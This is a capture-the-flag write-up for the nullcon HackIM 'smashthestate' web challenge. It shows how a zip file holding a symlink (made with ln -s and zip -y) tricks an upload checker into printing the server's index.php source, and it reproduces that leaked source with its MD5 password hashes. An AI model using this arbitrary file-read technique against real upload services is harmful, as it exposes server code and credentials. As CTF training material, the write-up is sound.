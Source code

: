 # nullcon HackIM : smashthestate

**Category:** Web
**Points:** 400
**Solves:**
**Description:**

> This beautiful website for testing zip files contains a replica of a vulnerability found in a well known bug bounty site.
>
> Log in with rob:smashthestate then exploit the vulnerability to gain access to the 'admin' account and the flag.
>
> Automated tools and bruteforcing will not help you solve this challenge.
>
>
> <http://54.152.101.3/>

[index.php](./index.php)

## Write-up

by d1rt

Logging into the server with the `rob:smashthestate` combo takes you to a form that promises to allow you to upload and confirm zip file contents, if you upload a zip file containing a directory you'll be given an error from the `cat` command printed on screen.

`cat: /var/www/html/tmp/upload_18vrn198vcn191nv1/test: Is a directory`

Make a local symlink, then store it in a zip file that preserves symlinks

```
$ ln -s ../../index.php flag
$ zip -y flag.zip flag
  adding: flag (stored 0%)
```

Upload this to the server and you'll get the source code of `index.php` dumped to the page

```
<!--?php
$FAKE_DATABASE = array (
    "rob" =--> "60df0ab1a78fd0d95a4cfa4b0854931b", // smashthestate
    "admin" =&gt; "6ec4b9f5cd1d4fd45746f8e592aa321e",
);
$page = $_GET['page'];

switch ($page) {
    case "login":
        echo "trying to log in";
        $user = $_POST['user'];
        $pass = $_POST['pass'];
...snip...
```

There is a section the appears to dump the flag:

```
    case "admin_login_help":
        session_start();
        if(!isset($_SESSION['login_code']) ){
            $_SESSION['login_code'] = bin2hex(openssl_random_pseudo_bytes(18));
            echo "khack has disabled zis function, please click <a href="?page=code_submit">here</a>\n";
        }
        else {
            echo "khack has disabled the function for zis session";
        }
        break;
    case "code_submit":
        session_start();
        $code = $_POST['code'];
        if (isset($code) &amp;&amp; isset($_SESSION['login_code'])) {
            if ($code == "khack" ){
                echo "Flag: ";
                passthru("sudo /bin/cat /var/www/html/flag");
            }
            else {
                echo "Invalid code";
            }
        }
        else {
            echo "<form action="?page=code_submit" method="POST">Please input the login code:<input name="code"><input type="submit" value="submit"></form>";
        }
```

**it is a lie and always dumps an empty flag**

just submit the md5i hash of the admin password, done.


## Other write-ups and resources

* <http://losfuzzys.github.io/writeup/2016/02/02/hackim2016-smashthestate400/>
* [0x90r00t](https://0x90r00t.com/2016/02/03/hackim-2016web-400-smashthestate-write-up/)
